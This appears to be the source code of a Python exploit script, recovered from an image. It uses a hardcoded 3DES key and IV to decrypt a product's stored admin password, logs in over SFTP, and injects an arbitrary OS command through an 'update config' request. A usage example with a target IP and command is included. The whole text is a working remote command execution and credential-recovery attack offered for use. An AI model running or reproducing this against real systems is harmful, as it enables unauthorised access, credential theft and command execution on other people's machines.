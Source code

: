     def login(host, port, user, password):
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(host, port, user, password, look_for_keys=False)
        return ssh.open_sftp()

    def send_command(sftp, cmd):
        uuid = get_uuid(sftp)
        payload = prepare_update_config(uuid, cmd)
        res = send_request(sftp, payload)
        if res[0] != 201:
            print('[!] Error could not send update config request via SFTP')
            sys.exit(1)

    def decrypt_password(password):
      key = b64decode('HKVV76GdVuzXne/zxtWvdjA2d2Am548E')
      iv = b64decode('gVGow/9uLvM=')
      encrypted = b64decode(password)
      cipher = DES3.new(key=key, iv=iv, mode=DES3.MODE_CBC)
      decrypted = cipher.decrypt(encrypted)
      return unpad(decrypted, 8).decode('utf-16')

    if len(sys.argv) != 6:
        print('[!] Missing arguments')
        print('[ ] Usage: {} <target> <port> <username> <encrypted-password> <cmd>'.format(sys.argv[0]))
        print("[ ] E.g. {} 192.168.1.128 14983 admin DEomw27OY7sYZs4XjYA2kVB4LEB5skN4 'whoami > C:\\x.txt'".format(sys.argv[0]))
        sys.exit(1)

    target = sys.argv[1]
    port = int(sys.argv[2])
    username = sys.argv[3]
    password = sys.argv[4]
    cmd = sys.argv[5]

    print('[ ] Decrypting password')
    password = decrypt_password(password)
    print('[ ] Decrypted password is "{}"'.format(password))

    print('[ ] Logging in')
    sftp = login(target, port, username, password)

    print('[ ] Sending command')
    send_command(sftp, cmd)

    print('[ ] Command successfully sent, triggering...')
    sftp = login(target, port, username, password)